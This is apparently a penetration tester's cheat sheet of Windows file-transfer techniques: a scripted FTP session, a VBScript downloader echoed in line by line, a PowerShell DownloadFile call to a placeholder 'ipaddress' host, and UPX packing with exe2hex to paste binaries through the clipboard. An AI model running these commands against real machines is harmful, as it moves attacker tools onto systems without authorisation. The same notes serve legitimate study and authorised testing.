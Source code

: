 # File Transfers

## Windows

### Non-interactive FTP

```
echo open ipaddress> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
ftp -n -v -s:ftp.txt
```

### VBScript

```
curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee83317bfe/raw/90080a73b892b09dde9dd2c787814bac502d7f46/wget.vbs
```
```
cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' > wget.vbs.echo
cat wget.vbs.echo | xclip -selection clipboard
```
```
cscript wget.vbs <url> (file)
```

### Powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ipaddress/filename', 'filename')
```

### Clipboard

```
upx -9 file.exe # compresses the file inplace
exe2hex -x file.exe -p fild.cmd
cat file.cmd | xclip -selection clipboard
```

